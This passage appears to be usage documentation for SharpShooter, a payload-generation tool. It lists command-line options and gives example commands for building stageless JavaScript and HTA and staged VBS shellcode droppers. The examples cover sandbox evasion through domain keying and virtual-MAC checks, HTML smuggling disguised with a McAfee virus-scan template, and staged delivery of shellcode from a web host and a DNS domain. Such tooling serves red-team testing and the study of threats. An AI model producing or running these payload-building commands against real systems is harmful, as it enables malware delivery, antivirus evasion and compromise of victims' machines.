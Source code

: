```
  --rawscfile <path>  Path to raw shellcode file for stageless payloads
  --shellcode         Use built in shellcode execution
  --scfile <path>     Path to shellcode file as CSharp byte array
  --refs <refs>       References required to compile custom CSharp,
                      e.g. mscorlib.dll,System.Windows.Forms.dll
  --namespace <ns>    Namespace for custom CSharp,
                      e.g. Foo.bar
  --entrypoint <ep>   Method to execute,
                      e.g. Main
  --web <web>         URI for web delivery
  --dns <dns>         Domain for DNS delivery
  --output <output>   Name of output file (e.g. maldoc)
  --smuggle           Smuggle file inside HTML
  --template <tpl>    Name of template file (e.g. mcafee)
```

Examples of some use cases are provided below:

### Stageless JavaScript ###

```
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3
```

Create a stageless JavaScript payload targeting version 4 of the .NET framework. This example will create a payload named foo.js in the output directory. The shellcode is read from the ./raw.txt file.
The payload attempts to enforce some sandbox evasion by keying execution to the CONTOSO domain, and checking for known sandbox/VM artifacts.

### Stageless HTA ###

```
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee
```

Create a stageless HTA payload targeting version 2/3 of the .NET framework. This example will create a payload named foo.hta in the output directory. The shellcode is read from the ./raw.txt file.
The payload attempts to enforce some sandbox evasion by checking for known virtual MAC addresses. A HTML smuggling payload will also be generated named foo.html in the output directory. This payload will use the example McAfee virus scan template.

### Staged VBS ###

```
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```

This example creates a staged VBS payload that performs both Web and DNS delivery. The payload will attempt to retrieve a GZipped CSharp file that executes the shellcode supplied as a CSharp byte array in the csharpsc.txt file. The CSharp file used is the built-in SharpShooter shellcode execution template. The payload is created in the output directory named foo.payload and should be hosted on http://www.foo.bar/shellcode.payload. The same file should also be hosted on the bar.foo domain using PowerDNS to serve it. The VBS file will attempt to key execution to the CONTOSO domain and will be embedded in a HTML file using the HTML smuggling technique with the McAfee virus scanned template. The resultant payload is stored in the output directory named foo.html.
